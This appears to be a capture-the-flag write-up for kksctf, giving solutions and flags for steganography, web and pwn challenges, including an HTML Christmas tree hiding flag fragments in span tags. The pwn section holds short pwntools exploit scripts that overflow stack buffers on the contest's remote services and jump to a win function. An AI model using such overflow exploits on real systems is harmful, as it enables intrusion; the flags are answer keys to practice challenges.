 # Misc
# Stego Warmup -100 

```bash
a0su@a0su  ~/Downloads  strings stego50.jpg| grep "kks"
 <pdf:Author>kks{just_s1ml3_st3g0}</pdf:Author>
```
Note: Exiftool also works since these the pdf author element of the file

#ru!e5p@g3 - 100
```kks{w3lcom3_to_0ur_ru!e5p@g3}```

#Xmas Tree - 200
Looking at the source there is a christmas tree. After looking at it for a few seconds I notived in the span tags there are some portions of the flag present. After separating out the information contained in those tags I was able to piece together the flag.

```
$
:$$
seeee$$$Neeee
R$$$F$$$$F
$$$$$$
@$$P*$$B
z$
$b
$$}
w_y
kks{
m@d
n3
34r_
n3
oooooooooo
z        z
z.,ze.$$$z



kks{n3w_y34r_m@dn3$$}

```
```html
<pre id="background">
                               <span style="color: red;">$</span>
                              <span style="color: red;">:$$</span>
                         <span style="color: red;">seeee$$$Neeee</span>
                           <span style="color: red;">R$$$F$$$$F</span>
                             <span style="color: red;">$$$$$$</span>
                            <span style="color: red;">@$$P*$$B</span>
                           <span style="color: red;">z$</span>#"  $#<span style="color: red;">$b</span>
                           " d   'N "
                            @"     ?r
                          xF .       "N
                       .$> P54.R       `$
                     $*   '*"$$$  uoP***~
                      #Noo "?$N"   #oL
                         f       o$#<span style="color: violet;">$$}</span>e.
                        $  @b    hoR$$r ^"$$b
                     .M   ?B$E   *.B$$       .R
                   .*     *\ *.4*R         ..*
                oo#     ooL    d#R.     P##~
                $c    .""P#$  @   P     k
                  R$r <span style="color: yellow;">w_y</span>L$$  P  "r     'N
                    ^$ "$$$` $.....JL     "N.
                  .$\           * P5"LR      $..
               ..* 4*R     xr    'PFN$$   .k    "*****.
            od#"   d#*.  "*$$P~   "?$*" '<span style="color: tomato;">kks{</span>"       u"
         e""      f   M   @F"$  ec       x$"$.     :"
         M        >  "d       $$$$?$           .$$F`
          "P..  .$.....$L $$.4$$. "   @#3$$   $E.
             '**..  *   R..$$ `R$*k.  f<span style="color: skyblue;">m@d</span>$>     *..
               J"       *k$$$~  "*$**o$o$$P        '*oo.
              P           #        "$$$#*o          >  '####*oooo
           .e"            :e$$e.  F3  ^"$P  :$$s :e@$ee        s"
         $P` <span style="color: orange;">n3</span>>    $P$$k "$"?$3 @"#N      CxN$$> .$$$       .P
      M$~   J\##   44N>$$  .d$.$d   @&      `$$$  F  .8..$$$*
  .***     :   JM   *d$$*.$$.P  M  .P5     M          **.
  "oo      J  .dP    ud$$od#   $oooooo$  oo$oo           ###ou
     "####$beeee$.'$eeP#~        ""      $<span style="color: greenyellow;">34r_</span>    e$$$o       #heeee
        :"    " z$r ^            o$N     '"  "   4$z>$$             """#$$$
       .~      F$4$B       r    F @#$.       ..   $8$$P M7                $
     .*  $     8 $$B     .J$..  hP$$$F     .'PB$       J~##             .d~
   .P  *<span style="color: blue;">n3</span>$*    "*"       $$$    #**~      hdM$$>     <   JM.......*****
 .P     $#*k       .o#>  P" "k   ..         '$$P      d  .JP'h
"""hr ^        xe""  >          ""c           ee    @beeeee$.)
      """t$$$$F"      M        $`   R          > "$r     "     "c
                              <span style="color: brown;">oooooooooo</span>
                              <span style="color: brown;">z        z</span>
                              <span style="color: brown;">z.,ze.$$$z</span>
                </pre>

Flag: kks{n3w_y34r_m@dn3$$}
```
# Web
# Postman - 100
```bash
 ✘ a0su@a0su  ~  curl -X post http://tasks.open.kksctf.ru:8001/postbox
Thanks! kks{thanks_f0r_m@1l}
```
# PWN
# Baby BufferOverflow - 100
```python
from pwn import * 

#r = process('./baby_bof')
r = remote('tasks.open.kksctf.ru',  10002)

pad = "A" * 260
win_addr = p32(0x080485f6)
arg = p32(0xcafebabe)
r.sendline(pad+win_addr+"AAAA"+arg)
r.interactive()

Flag: kks{0v3rf10w_15_my_1!f3}
```

# Insane - 100 
```python
from pwn import *

#r = local('./insane_pwn')
r = remote('tasks.open.kksctf.ru', 10003)
pad = 'A' * 259
r.sendline(pad)
r.interactive()

Flag: kks{W0w_th15_w@5_4w350m3!}
```

